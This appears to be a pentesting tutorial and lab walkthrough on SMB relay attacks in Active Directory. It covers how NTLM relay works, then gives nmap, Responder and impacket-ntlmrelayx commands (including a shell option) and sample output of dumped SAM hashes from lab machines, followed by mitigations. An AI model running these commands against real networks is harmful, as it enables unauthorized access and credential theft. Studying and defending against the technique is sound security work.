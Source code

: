 # SMB Relay

### What is SMB?

SMB (Server Message Block) is a network file-sharing protocol primarily used in Windows environments. It allows systems to share files, printers, and other resources over a network and supports authentication to access those resources.

### What can go wrong here?

**the attacker positions themselves as a man-in-the-middle (MITM) between the client and the target system**

- An SMB relay attack occurs when an attacker intercepts NTLM authentication traffic intended for one machine and relays it to another without cracking the credentials. Instead of capturing hashes for offline attacks, the attacker reuses the authentication in real time to gain unauthorized access, often achieving code execution or administrative privileges on the relayed system.

- With LLMNR/NBT-NS poisoning (Responder), the attacker tricks the client into talking to them instead of the real server. Normally this just lets them capture the NTLM challenge–response.

- With SMB relay, instead of stopping there, the attacker forwards the client’s authentication attempt to a real server. The attacker is now in the middle:

  - Client thinks it’s authenticating to the intended server.

  - Target server thinks it’s authenticating the client.

  - Attacker just passes messages back and forth, never needing to crack the password or hash.

- SMB is vulnerable to relay attacks because NTLM authentication does not bind the client’s authentication attempt to the intended server. Without SMB signing, the protocol does not verify the integrity and authenticity of the messages, allowing attackers to insert themselves into the authentication process.

```{figure} ../../../_static/AD/smb-relay.png
:alt: Sequence Diagram of Relay Attack
:width: 100%
:align: center

Relay Attack

```

### Attack Requirements

SMB signing must be disabled or not enforced on the target system, the relayed user must have local administrative rights for meaningful impact, and credentials cannot be relayed back to the machine they originated from. Since NTLM is reused directly, password strength has no effect on the attack’s success. Notably, most Windows workstations by default do not enforce SMB signing, making them susceptible

### SMB Relay in AD

#### Step 1: Identifying workstations without SMB Signing Enforced

```
nmap --script=smb2-security-mode.nse -p445 <target-ip> -Pn
```

```
Nmap scan report for 10.0.2.18
Host is up (0.0016s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:80:FA:D3 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required


Nmap scan report for 10.0.2.17
Host is up (0.00082s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:92:B4:94 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required


Nmap scan report for 10.0.2.16
Host is up (0.00058s latency).

PORT    STATE    SERVICE
445/tcp filtered microsoft-ds
MAC Address: 08:00:27:EA:E2:55 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

```

#### Step 2: Setting up the attack

We first have to disable SMB and HTTP in Responder, as these will be forwarded to nlmrelayx.

```
sudo vim /etc/responder/Responder.conf

-- switch SMB and HTTP Off

sudo responder -I eth0 -dwv
```

```
impacket-ntlmrelayx -tf targets.txt -smb2support
```

```
-- to start a shell
impacket-ntlmrelayx -tf targets.txt -smb2support -i for shell
```

#### Step 3: An Event Occurs and Credentials Get Relayed

When an event (such as LLMNR poisoning) occurrs, responder will capture this event, pass it to ntlmrelayx, which will relay the credentials to the targets in our targets file.

In our lab we simulate an event by pointing to the attacker machine ip `\\10.0.2.15` on THEPUNISHER fcastle machine (fcastle is admin on SPIDERMAN so we can authenticate there and dump the local SAM hashes)

```
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] SMBD-Thread-6 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.16 controlled, attacking target smb://10.0.2.17
[*] Authenticating against smb://10.0.2.17 as MARVEL/FCASTLE SUCCEED
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c7c36b0f2e6cf2201e6ce026fca58d9c:::
```

The SAM (Security Account Manager) is a database in Windows that stores local user account information, including hashed representations of passwords. When attackers “dump the SAM,” they extract these password hashes to attempt cracking or use them in pass-the-hash attacks.

Each entry in a dumped SAM file typically follows the format:
username:RID:LM hash:NT hash:::

- Username is the account name (e.g., Administrator, Guest, or a local user).

- RID (Relative Identifier) is a unique number associated with each account. For example, 500 usually corresponds to the built-in Administrator account, 501 to Guest, and 1000+ to user-created accounts.

- LM hash is the old LAN Manager hash of the password. In modern Windows systems, LM hashes are usually disabled by default and appear as the placeholder value aad3b435b51404eeaad3b435b51404ee.

- NT hash is the NTLM hash of the password, derived from the actual user password. This is the primary target for attackers since it can be cracked offline or used directly in authentication attacks.

### Mitigations

Mitigation strategies include enabling and enforcing SMB signing on all systems, disabling NTLM where possible, and using Kerberos as the preferred authentication method.
Restricting administrative privileges, segmenting networks, and applying the principle of least privilege reduce the value of relayed credentials.

#### References

- [https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
